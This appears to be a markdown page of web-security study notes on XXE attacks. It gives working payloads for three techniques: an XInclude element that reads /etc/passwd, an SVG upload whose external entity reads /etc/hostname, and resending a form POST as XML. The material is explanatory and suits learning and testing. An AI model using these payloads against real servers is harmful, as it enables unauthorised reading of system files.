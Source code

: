 ### Xinclude

`XInclude` is a part of the XML specification that allows an XML document to be built from sub-documents. You can place an `XInclude` attack within any data value in an XML document, so the attack can be performed in situations where you only control a single item of data that is placed into a server-side XML document.

To perform an `XInclude` attack, you need to reference the `XInclude` namespace and provide the path to the file that you wish to include. For example:

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo> 
```

### xxe attack via file upload

Some applications allow users to upload files which are then processed server-side. Some common file formats use XML or contain XML subcomponents. Examples of XML-based formats are office document formats like DOCX and image formats like SVG.

For example, an application might allow users to upload images, and process or validate these on the server after they are uploaded. Even if the application expects to receive a format like PNG or JPEG, the image processing library that is being used might support SVG images. Since the SVG format uses XML, an attacker can submit a malicious SVG image and so reach hidden attack surface for XXE vulnerabilities.

ex for svg file

```xml
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```

### xxe attacks via modified content type

Most POST requests use a default content type that is generated by HTML forms, such as `application/x-www-form-urlencoded`. Some web sites expect to receive requests in this format but will tolerate other content types, including XML.

For example, if a normal request contains the following:

```
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```

Then you might be able submit the following request, with the same result:

```
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
```
